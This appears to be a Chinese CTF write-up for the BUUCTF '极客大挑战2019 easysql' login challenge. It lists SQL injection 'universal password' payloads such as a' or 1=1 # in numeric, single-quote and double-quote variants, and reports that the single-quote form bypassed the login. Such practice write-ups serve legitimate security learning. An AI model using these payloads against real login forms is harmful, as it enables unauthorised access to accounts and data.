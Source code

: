 # BUUCTF Web ---[极客大挑战2019]easysql 

> 涉及知识点---sql 万能密码

打开题目 一看帅气的页面 然后让输入用户名和密码 
![image](https://github.com/uicciu/image/blob/main/easysql1.png)
随便输一个吧
![image](https://github.com/uicciu/image/blob/main/easysql2.png)
显示用户名或密码有误 考虑看一下源代码 啥也没看到 再用burpsuit抓一下包看看 也啥也没看到 考虑sql注入

听说有个东西叫万能密码
这里有一部分

【数值型万能账号】

    a or true #

    a or 1 #

    a or 1=1 #

    a or true -- a

    a or 1 -- a

    a or 1=1 -- a

【单引号字符型万能密码】

    a' or true #

    a' or 1 #

    a' or 1=1 #

    a' or true --a

    a' or 1 -- a

    a' or 1=1 -- a

【双引号字符型万能密码】

    a" or true #

    a" or 1 #

    a" or 1=1 #

    a" or true -- a

    a" or 1 -- a

    a" or 1=1 -- a

那万能密码试一试
拿数字型一试
![image](https://github.com/uicciu/image/blob/main/easysql3.png)

发现不行 再找一个 试到了第二种
![image](https://github.com/uicciu/image/blob/main/easysql4.png)

ah 找到了

嘶 但是还是不知道他是指的什么 但是知道了一种方法



